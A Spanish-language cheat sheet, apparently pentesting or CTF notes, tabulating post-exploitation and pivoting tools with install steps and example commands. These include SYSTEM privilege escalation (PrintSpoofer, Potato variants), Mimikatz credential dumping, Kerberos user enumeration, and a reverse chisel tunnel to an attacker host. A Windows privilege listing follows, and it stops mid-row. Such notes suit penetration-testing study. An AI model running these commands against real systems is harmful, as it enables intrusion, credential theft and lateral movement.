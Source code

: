 # Tabla de Herramientas de Post-Explotación y Pivoting

| Herramienta | Descripción | Tipo de Herramienta | Sistema de instalación | Instalación | Ejemplo de Uso Realista | Privilegios requeridos |
|-------------|-------------|---------------------|------------------------|-------------|-------------------------|------------------------|
| **PrintSpoofer.exe / PrintSpoofer64.exe** | Abusa del servicio `Print Spooler` y el permiso `SeImpersonatePrivilege` para escalar a SYSTEM. | Escalación de privilegios local | Windows | Descargar desde repositorios públicos (ej. GitHub) o compilar en Visual Studio. | `PrintSpoofer64.exe -i -c cmd.exe` (Abre shell como SYSTEM) | Usuario con `SeImpersonatePrivilege` habilitado. |
| **JuicyPotato.exe** | Variante de exploit que abusa de COM y permisos especiales para escalar a SYSTEM. | Escalación de privilegios local | Windows | Descargar binario o compilar desde código fuente. | `JuicyPotato.exe -l 1337 -p cmd.exe -t *` (Eleva a SYSTEM) | `SeImpersonatePrivilege` o `SeAssignPrimaryTokenPrivilege`. |
| **GodPotato.exe / GodPotato-NEI2.exe** | Variante mejorada de JuicyPotato que funciona en versiones más recientes de Windows. | Escalación de privilegios local | Windows | Descargar binario listo desde GitHub. | `GodPotato.exe -cmd "cmd /c whoami"` | `SeImpersonatePrivilege`. |
| **RogueWinRM.exe** | Permite ejecutar comandos remotos como SYSTEM a través de WinRM cuando se tienen privilegios. | Ejecución remota | Windows | Descargar binario desde GitHub o compilar. | `RogueWinRM.exe -H <victima_ip> -u usuario -p contraseña -c "powershell.exe"` | WinRM habilitado y credenciales válidas. |
| **sh6789.exe** | Script/binario personalizado para ejecución de payloads en Windows. | Ejecución de payloads | Windows | Copiar en la máquina víctima. | `sh6789.exe` | Depende del payload; normalmente requiere ejecución local. |
| **BloodHound** | Herramienta de análisis de Active Directory que permite descubrir rutas de ataque. | Reconocimiento y escalación lateral | Windows/Linux | Instalar desde GitHub (`npm install` para interfaz gráfica, `SharpHound` para recolección). | `SharpHound.exe -c All` y luego analizar con GUI. | Usuario con acceso al dominio. |
| **Mimikatz** | Extrae credenciales en texto plano, hashes y tickets Kerberos desde memoria. | Post-explotación / extracción de credenciales | Windows | Descargar desde GitHub o binarios precompilados. | `mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords"` | Usuario con privilegio `SeDebugPrivilege` (normalmente admin local). |
| **Impacket** | Conjunto de scripts Python para interactuar con protocolos de red (SMB, RDP, etc.). | Post-explotación / movimiento lateral | Linux | `pip install impacket` | `psexec.py usuario@victima` | Credenciales válidas y acceso a puertos necesarios. |
| **Kerbrute** | Fuerza bruta o enumera usuarios en Kerberos. | Reconocimiento | Windows/Linux | Descargar desde GitHub (Go) o binario precompilado. | `kerbrute userenum -d dominio.local users.txt` | No requiere privilegios especiales; solo acceso a KDC (puerto 88). |
| **CrackMapExec (CME)** | Automatiza pruebas en redes Windows (SMB, WinRM, RDP). | Post-explotación / movimiento lateral | Linux | `pipx install crackmapexec` | `cme smb 192.168.1.0/24 -u usuario -p contraseña` | Credenciales válidas. |
| **smbclient** | Cliente SMB para acceder a recursos compartidos. | Acceso a compartidos SMB | Linux | `sudo apt install smbclient` | `smbclient //192.168.1.10/compartido -U usuario` | Credenciales válidas o acceso anónimo. |
| **rpcclient** | Cliente RPC para consultar información de Windows. | Enumeración | Linux | `sudo apt install samba-common-bin` | `rpcclient -U "" -N 192.168.1.10` | Acceso anónimo o credenciales válidas. |
| **proxychains** | Encadena conexiones a través de proxies/Tor. | Pivoting / tunneling | Linux | `sudo apt install proxychains` | `proxychains nmap -Pn 10.10.10.10` | No requiere privilegios especiales. |
| **chisel** | Túnel TCP/UDP rápido sobre HTTP. | Pivoting / tunneling | Windows/Linux | Descargar desde GitHub o binario precompilado. | `chisel server -p 8000 --reverse` (atacante) y `chisel client atacante_ip:8000 R:8080:127.0.0.1:80` (víctima) | Ejecución en ambos extremos; no requiere privilegios especiales. |




Privilege Name                            Description                                                        State
========================================= ================================================================== =======
SeIncreaseQuotaPrivilege                  Adjust memory quotas for a process                                 Enabled
SeSecurityPrivilege                       Manage auditing and security log                                   Enabled
SeTakeOwnershipPrivilege                  Take ownership of files or other objects                           Enabled
SeLoadDriverPrivilege                     Load and unload device drivers                                     Enabled
SeSystemProfilePrivilege                  Profile system performance                                         Enabled
SeSystemtimePrivilege                     Change the system time                                             Enabled
SeProfileSingleProcessPrivilege           Profile single process                                             Enabled
SeIncreaseBasePriorityPrivilege           Increase scheduling priority                                       Enabled
SeCreatePagefilePrivilege                 Create a pagefile                                                  Enabled
SeBackupPrivilege                         Back up files and directories                                      Enabled
SeRestorePrivilege                        Restore files and directories                                      Enabled
SeShutdownPrivilege                       Shut down the system                                               Enabled
SeDebugPrivilege                          Debug programs                                                     Enabled
SeSystemEnvironmentPrivilege              Modify firmware environment values                                 Enabled
SeChangeNotifyPrivilege                   Bypass traverse checking                                           Enabled
SeRemoteShutdownPrivilege                 Force shutdown from a remote system                                Enabled
SeUndockPrivilege                         Remove computer from docking station                               Enabled
SeManageVolumePrivilege                   Perform volume maintenance tasks                                   Enabled
SeImpersonatePrivilege                    Impersonate a client after authentication                          Enabled
SeCreateGlobalPrivilege                   Create global objects                                              Enabled
SeIncreaseWorkingSetPrivilege             Increase a process working set                                     Enabled
SeTimeZonePrivilege                       Change the time zone                                               Enabled
SeCreateSymbolicLinkPrivilege             Create symbolic links                                              Enabled
SeDelegateSessionUserImpersonatePrivilege Obtain an impersonation token for another user in the same session 